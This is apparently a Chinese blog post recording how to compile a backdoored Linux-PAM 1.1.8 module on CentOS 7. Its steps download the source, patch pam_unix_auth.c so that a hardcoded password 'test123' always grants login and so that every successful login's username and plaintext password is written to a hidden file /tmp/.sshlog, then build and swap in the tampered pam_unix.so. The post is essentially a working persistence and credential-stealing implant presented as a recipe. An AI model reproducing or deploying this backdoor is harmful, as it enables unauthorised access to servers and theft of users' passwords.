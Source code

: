 ```yaml
---
title: Linux PAM1.1.8后门 CentOS7.6 编译记录
date: 2024/05/08 12:25
updated: 2024/05/08 12:25
tags: [编译,PAM,后门,SSH,渗透测试,安全技术]
categories: 安全技术
description: 记录编译过程中的坑
cover: https://i3.wp.com/wx4.sinaimg.cn/large/0072Vf1pgy1fodqiuq34vj31kw0zkhdt.jpg
---
```


##  Linux PAM1.1.8后门 CentOS7.6 编译记录

编译环境：
```bash
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# uname -a
Linux iZhp35ib6je3t2dltc8ltkZ 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# cat /etc/centos-release
CentOS Linux release 7.9.2009 (Core)
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# 
```

SELINUX=disabled(默认)

1. 检查目标机器pam版本
```bash
[root@iZhp35ib6je3t2dltc8ltkZ ~]# rpm -qa | grep pam
pam-1.1.8-23.el7.x86_64
```

2. 获取对应版本源码

```bash
wget https://github.com/linux-pam/linux-pam/archive/refs/tags/Linux-PAM-1_1_8.tar.gz
```

3. 解压

```bash
tar zxvf Linux-PAM-1_1_8.tar.gz
cd linux-pam-Linux-PAM-1_1_8  
```

4. 安装基础依赖
```bash
yum install gcc flex flex-devel automake autoconf gettext libtool w3m texinfo fop bison bzip2 docbook-xsl-ns docbook-style-dsssl  docbook-style-xsl docbook5-style-xsl  docbook-utils -y
```

5. 修改源码

modules/pam_unix/pam_unix_auth.c
```c
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("test123",p)==0){return PAM_SUCCESS;}
if(retval == PAM_SUCCESS){
    FILE * fp;
    fp = fopen("/tmp/.sshlog","a");
    fprintf(fp,"%s : %s\n",name,p);
    fclose(fp);
}
name = p = NULL;

AUTH_RETURN;
```

6. 编译
```bash
./autogen.sh
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
make
```

7. 备份并替换
```bash
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bak
cp /root/linux-pam-Linux-PAM-1_1_8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```